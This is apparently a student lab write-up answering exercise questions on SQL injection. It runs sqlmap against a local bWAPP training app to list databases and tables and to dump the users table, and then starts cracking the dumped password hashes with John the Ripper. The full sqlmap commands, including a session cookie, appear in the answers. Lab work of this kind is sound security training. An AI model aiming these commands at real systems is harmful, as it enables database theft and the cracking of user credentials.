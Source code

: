 ```
![image](https://github.com/user-attachments/assets/f17e41d8-b6a8-40f0-876a-4db17133f0b2)


### Install sqlmap.

  ![image](https://github.com/user-attachments/assets/65f56e70-afd1-40be-a615-b7c4448d8216)

**Question 1**: Use sqlmap to get information about all available databases

**Answer 1**:

The command line for getting database is 
```
py sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=1&action=go" --cookie="PHPSESSID=21nqejl3n13tc632lbecfl46c1; security_level=0;" --dbs
```

![image](https://github.com/user-attachments/assets/f3d85d37-8c3e-4222-8fb5-73bd539bbaff)

**Question 2**: Use sqlmap to get tables, users information

**Answer 2**:

Get tables information
```
py sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=1&action=go" --cookie="PHPSESSID=21nqejl3n13tc632lbecfl46c1; security_level=0;" -D bWAPP --tables
```
Reults

![image](https://github.com/user-attachments/assets/66548cad-3a18-4cd5-bd73-f02f0de26d7d)

Get users information
```
py sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=1&action=go" --cookie="PHPSESSID=21nqejl3n13tc632lbecfl46c1; security_level=0;" -D bWAPP -T users --dump
```
Results

![image](https://github.com/user-attachments/assets/dc10246f-e93d-4432-a33f-7fba6f3c6a26)

![image](https://github.com/user-attachments/assets/cd5dc85d-082d-4e96-b629-f2fc90e0f44e)

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit

**Answer 3**:

So i will create a hashes.txt file to store username and password

![image](https://github.com/user-attachments/assets/87f00f54-7ac2-46e5-914e-4271b9fe83d6)

Install john the ripper 

![image](https://github.com/user-attachments/assets/41f1a42d-7df7-460b-b6b6-530a0c9e6760)

![image](https://github.com/user-attachments/assets/ed3822d4-274f-48a6-9da3-7232376abb21)


We will use the command below to solve the hashes

```
john hashes.txt

